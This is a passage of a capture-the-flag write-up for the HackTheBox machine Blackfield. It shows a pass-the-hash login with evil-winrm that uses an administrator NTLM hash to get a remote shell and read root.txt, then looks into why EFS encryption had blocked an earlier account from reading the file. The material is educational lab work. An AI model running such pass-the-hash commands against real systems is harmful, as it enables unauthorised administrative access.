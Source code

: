 Armed with the administrator's hash, I can use Evil-WinRM to get a
shell:



    root@kali# evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



And get `root.txt`:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    4375a629************************



## Beyond Root - EFS

### Identify Protection

I wanted to see why the Backup Operator script didn't allow me access to
`root.txt`. My first guess was some kind of
[DACL](https://docs.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces)
blocking svc_backup from reading, but `icacls` didn't show anything like
that:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> icacls root.txt
    root.txt BLACKFIELD\Administrator:(F)
             NT AUTHORITY\SYSTEM:(I)(F)
             BUILTIN\Administrators:(I)(F)
             BLACKFIELD\Administrator:(I)(F)



It turns out to be [encrypted file
system](https://en.wikipedia.org/wiki/Encrypting_File_System) (EFS). I
used EFS on all the flags and files of interest in
[RE](/htb-re.md#read-roottxt-as-system), largely because if
there was an unintended path that led to system (which there turned out
to be), I wanted to make it as hard as possible. Typically I'd run
`cipher /c [file]` to see if the file is encrypted and who can decrypt
it:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> cipher /c root.txt

     Listing C:\Users\Administrator\desktop\
     New files added to this directory will not be encrypted.

    E root.txt
      Compatibility Level:
        Windows Vista/Server 2008
